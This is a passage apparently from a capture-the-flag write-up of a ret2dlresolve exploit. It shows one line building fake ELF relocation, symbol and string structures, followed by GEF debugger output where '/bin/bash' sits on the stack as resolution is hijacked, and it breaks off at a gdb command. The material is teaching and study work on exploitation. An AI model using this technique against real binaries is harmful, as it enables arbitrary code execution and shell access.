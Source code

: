 ```python 
fake = fake_jmp + fake_sym + fake_str
```

Here's what out fake structs look like in memory (I replaced the addresses with the names of symbols)
```bash
$eax   : 0x29
$ebx   : 0x0
$ecx   : 0x0804b2a4  →  0x0804b01c  →  0xf7ee6530  →  <__memset_sse2_rep+0> endbr32
$edx   : 0x400
$esp   : 0x0804b988  →  0xf7ff5a40  →  0x00000000
$ebp   : 0x08048485  →   leave
$esi   : 0x0804b2a4  →  0x0804b01c  →  0xf7ee6530  →  <__memset_sse2_rep+0> endbr32
$edi   : 0x400
$eip   : 0xf7fd0fe0  →  <_dl_runtime_resolve+0> endbr32
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0804b988│+0x0000: 0xf7ff5a40  →  0x00000000    ← $esp
0x0804b98c│+0x0004:  test BYTE PTR [edi], ch
0x0804b990│+0x0008:  out dx, eax
0x0804b994│+0x000c: 0x0804b2c4  →  "/bin/bash"
0x0804b998│+0x0010:  add BYTE PTR [eax], al
0x0804b99c│+0x0014:  add BYTE PTR [eax], al
0x0804b9a0│+0x0018:  add BYTE PTR [eax], al
0x0804b9a4│+0x001c:  add BYTE PTR [eax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fd0fd6 <__tls_init_tp+262> mov    DWORD PTR [eax], 0x20
   0xf7fd0fdc <__tls_init_tp+268> jmp    0xf7fd0f95 <__tls_init_tp+197>
   0xf7fd0fde                  xchg   ax, ax
 → 0xf7fd0fe0 <_dl_runtime_resolve+0> endbr32
   0xf7fd0fe4 <_dl_runtime_resolve+4> push   eax
   0xf7fd0fe5 <_dl_runtime_resolve+5> push   ecx
   0xf7fd0fe6 <_dl_runtime_resolve+6> push   edx
   0xf7fd0fe7 <_dl_runtime_resolve+7> mov    edx, DWORD PTR [esp+0x10]
   0xf7fd0feb <_dl_runtime_resolve+11> mov    eax, DWORD PTR [esp+0xc]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0xf7fd0fe0 in _dl_runtime_resolve (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7fd0fe0 → _dl_runtime_resolve()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/2wx $esp
0x804b988:      0xf7ff5a40      0x00002f84
gef➤  p *(Elf32_Rel*)(JMPREL + 0x00002f84)
$7 = {
  r_offset = 0x804b01c,
  r_info = 0x30e07
}
gef➤  p *(Elf32_Sym*)(SYMTAB + (0x30e07 >>8 )* 0x10)
$8 = {
  st_name = 0x3050,
  st_value = 0x0,
  st_size = 0x0,
  st_info = 0x0,
  st_other = 0x0,
  st_shndx = 0x0
}
gef➤  x/s STRTAB + 0x3050
```